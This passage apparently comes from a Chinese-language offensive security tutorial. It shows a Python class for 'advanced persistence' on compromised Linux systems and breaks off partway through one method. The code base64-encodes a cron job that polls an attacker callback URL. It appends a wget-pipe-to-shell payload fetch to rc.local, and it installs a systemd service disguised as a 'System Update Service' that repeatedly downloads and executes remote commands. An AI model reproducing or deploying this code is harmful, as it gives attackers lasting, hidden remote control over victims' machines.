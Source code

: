 
## 三、高级持久化技术

### 1. 多重持久化机制

```python
class AdvancedPersistence:
    """高级持久化技术"""
    
    def __init__(self, exploit_module):
        self.exploit = exploit_module
    
    def establish_persistence(self, callback_url):
        """建立多重持久化"""
        methods = [
            self._cron_persistence,
            self._rc_local_persistence, 
            self._service_persistence,
            self._firmware_backdoor
        ]
        
        for method in methods:
            try:
                method(callback_url)
                print(f"[+] Persistence method {method.__name__} established")
            except Exception as e:
                print(f"[-] Failed {method.__name__}: {e}")
    
    def _cron_persistence(self, callback_url):
        """Cron持久化"""
        cron_job = f"*/5 * * * * curl -s {callback_url}/alive >/dev/null 2>&1"
        encoded_cron = base64.b64encode(cron_job.encode()).decode()
        
        self.exploit.run(f"echo '{encoded_cron}' | base64 -d >> /etc/crontab")
    
    def _rc_local_persistence(self, callback_url):
        """rc.local持久化"""
        payload = f"wget -q -O - {callback_url}/payload.sh | sh"
        self.exploit.run(f"echo '{payload}' >> /etc/rc.local")
    
    def _service_persistence(self, callback_url):
        """系统服务持久化"""
        service_content = f"""
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c "while true; do curl -s {callback_url}/cmd | sh; sleep 60; done"
Restart=always

[Install]
WantedBy=multi-user.target
"""
        encoded_service = base64.b64encode(service_content.encode()).decode()
        
        commands = [
            f"echo '{encoded_service}' | base64 -d > /etc/systemd/system/system-update.service",
            "systemctl enable system-update.service",
            "systemctl start system-update.service"
        ]
        
```